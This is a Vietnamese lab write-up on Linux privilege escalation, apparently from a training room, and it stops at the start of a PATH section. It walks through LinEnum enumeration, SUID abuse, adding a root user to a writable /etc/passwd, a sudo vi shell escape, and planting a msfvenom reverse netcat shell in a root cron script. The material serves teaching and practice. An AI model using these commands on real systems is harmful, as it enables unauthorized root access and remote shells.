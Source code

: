 <h2>Understanding Pricesc</h2>

✔

<h2>Direction of Privilege Escalation</h2>

Priviledge Tree\
![image](https://user-images.githubusercontent.com/95600382/150273599-6221d23c-7e2d-4b20-85d1-1336ce0443ea.png)\
Có 2 loại leo thang đặc quyền:\
- Horizontal privilege escalation: Leo thang theo chiều ngang, chiếm quyền của các user ngang hàng
- Vertical privilege escalation: Leo thang theo chiều dọc, chiếm quyền hoặc nâng quyền từ user đang có.

<h2>Enumeration</h2>

LinEnum là một bash script đơn giản chứa các command sử dụng trong leo thang đặc quyền. 
links: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
Cách có thể để chuyển LinEnum đến máy mục tiêu\
2 cách:\
Cách 1 host 1 server với python và down trực tiếp về máy mục tiêu bằng cách sử dụng `wget` sau đó phân quyền với `chmod +x` và thực thi script.\
![image](https://user-images.githubusercontent.com/95600382/150454966-105167bd-fecf-42a7-8a6b-b33c70094815.png)\
Cách 2 áp dụng khi b có một quyền hợp lý trên máy nạn nhân, copy code của linenum và thực thi nó trên máy nạn nhân.\
Output của LinEnum sẽ được chia ra thành nhiều phần, và các phần chính chúng ta nên tập trung vào là:\
Kernel: Bao gồm các thông tin về kernel và các lỗ hổng kernel có trên máy mục tiêu/
Can we read/write sensitive files: Các file được quyền đọc ghi 
SUID Files: SUID là một loại quyền đặc biệt đc tra cho file. Nó cho phép file được chạy với quyền của chủ sở hữu\
Crontab ContentS: Thông tin về Cron jobs.
VD: đăng nhập ssh vào máy mục tiêu với user3:password\
Target hostname:`polobox`\
![image](https://user-images.githubusercontent.com/95600382/150293666-32f50534-6865-40f6-b112-4aecf6c3e9ad.png)\
Chạy LinEnum:\
![image](https://user-images.githubusercontent.com/95600382/150455799-074a0bae-8d38-4993-bc43-2a8ae75ea9f5.png)\

<h2>Abusing SUID/GUID Files</h2>

**Tìm và khai thác các SUID Files**\
Chúng ta có thể tận dụng các file này để lấy shell có quyền cao hơn.\
**SUID Binary**\
Trong Linux mọi thứ đều là file với 3 quyền chính là read/write/execute. Vậy nên cần chú ý đến các user và có hoặc bị hạn chế 3 quyền này. Cơ chế phân quyền trong Linux:\
user-group-others\
rwx-rwx-rwx\
421-421-421\
Quyền max có thể set cho user là 7 (4+2+1). vd 755 là rwxr-xr-x\
Các quyền đặc biệt khi được gán cho user sẽ trở thành SUID hoặc SGID. vd bit 4 được gán cho user (Owner) sẽ trở thành SUID và bit 2 gán cho gr sẽ trở thành SGID\
Quyền SUID:\
SUID: rws-rwx-rwx\
GUID: rwx-rws-rwx\
**Tìm SUID Binary**\
LinEnum sẽ giúp b tìm các file này. hoặc b có thể tự tìm với lệnh `find / -perm -u=s -type f 2>/dev/null`
Thực thi thử file SUID shell:\
![image](https://user-images.githubusercontent.com/95600382/150458750-dce6745c-aec1-4875-8e99-48988c13e6ed.png)\
Có thể thấy quyền user đã chuyển từ user3 lên root\
![image](https://user-images.githubusercontent.com/95600382/150459057-a87a62bb-1873-4880-8a2a-453128dee45e.png)\

<h2>Exploiting Writeable /etc/passwd</h2>
  
Trong máy mục tiêu, ta tìm ra rằng user 7 nằm trong gr root do gid 0\
![image](https://user-images.githubusercontent.com/95600382/150459473-50467595-ca00-4728-b23e-a5b0170f897c.png)\
Cấu trúc file /etc/passwd/\
test:x:0:0:root:/root:/bin/bash:
username\
password: x thể hiện cho pass mã hóa đc lưu trong /etc/passwd\
userID\
groupID\
user ID info: extra info về user\
Home directory: thư mục gốc của user khi login\
Command/shell\
**Cách để khai thác một file /etc/passwd**\
Tạo thêm một user với format tương ứng với pass, uid, gid,... tùy chọn.\
VD:\
Tạo ra một password hash:
```
openssl passwd -1 -salt [salt] [password]
```
![image](https://user-images.githubusercontent.com/95600382/150460187-281471af-716c-40e4-aab8-c500858abffb.png)\
Tạo một user new có quyền root với pass hash vừa tạo:
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
![image](https://user-images.githubusercontent.com/95600382/150461024-d1661232-8de9-4f22-b93a-14d83c999697.png)\

<h2>Escaping Vi Editor</h2>

```
sudo -l
```
Các lệnh có thể sử dụng với sudo.\
**Escaping Vi**\
![image](https://user-images.githubusercontent.com/95600382/150459473-50467595-ca00-4728-b23e-a5b0170f897c.png)\
Chạy lệnh `sudo -l` trên user8 có thể thấy được user này có thể chạy vi với quyền root\
![image](https://user-images.githubusercontent.com/95600382/150461581-9a155f4e-9c91-4b54-8f6e-144d70715dc0.png)\
Có thể sử dụng GTFOBins: https://gtfobins.github.io/ để bypass các security missconfig\
leo thang với vi: sudo vi > :!sh > Kết quả:\
![image](https://user-images.githubusercontent.com/95600382/150462111-14e6827a-8ef4-43e8-8ddf-5bf30fa8da7c.png)\

<h2>Exploiting Crontab</h2>

View cronjobs: `cat /etc/crontab`\
Format của Cronjob:\
# = id\
m = phút\
h = giờ\
dom = Day of the Month\
mon = Month\
dow = day of the week\
user = user nào chạy command\
command = command sẽ đc chạy\
vd:
```
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
**How to khai thác ?**\
Trong ví dụ, ta có thể thấy file autoscript.sh trên user4 desktop đc chạy 5ph một lần với quyền root, và chúng ta có quyền write với file này. Tạo một command với msfvenom rồi chèn vào file script để chạy.
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
![image](https://user-images.githubusercontent.com/95600382/150463243-b71c059d-7912-4b2e-aa7d-cbcc5d6b8fa7.png)\
Đợi tầm 5ph ta có thể thấy kết nối với quyền root đã đc khởi tạo thành công:\
![image](https://user-images.githubusercontent.com/95600382/150464128-7a544904-da17-4d48-96f3-82a1df58532b.png)\

<h2>Exploiting PATH Variable</h2>

PATH là một biến môi trường trong Linux và Unix sử dụng để chỉ định thư mục chứa các chương trình có thể thực thi.


